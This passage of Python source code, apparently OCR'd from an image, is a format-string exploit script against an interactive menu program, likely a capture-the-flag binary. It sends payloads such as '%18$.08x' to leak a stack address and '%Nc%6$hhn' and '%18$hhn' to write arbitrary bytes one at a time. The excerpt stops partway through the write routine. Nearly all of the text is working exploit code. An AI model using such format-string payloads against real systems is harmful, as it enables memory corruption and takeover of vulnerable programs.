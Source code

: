 ```python
def p(x):
    return struct.pack('<L', x & 0xffffffff)


def write(x, i):
    # first, leak address to which we'll write ($30) so that we can align the writes to $30
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('ZZZZ%18$.08xBBBB')
    readtil('>>> ')
    sendln('4')
    data = readtil('>>> ')
    m = re.findall('ZZZZ(.*)BBBB', data)
    
    addr = m[0].decode('hex')
    addr = struct.unpack('>I', addr)[0]
    start = addr & 0xff

# setup $30 to x (addr to write) via $18 by first setting $6->$18
#-----------
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start+1) + 'c%6$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ') 
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x >> 8) & 0xff)+'c%18$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
#-----------
#-----------
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start+2) + 'c%6$hhn')
    readtil('>>> ')
```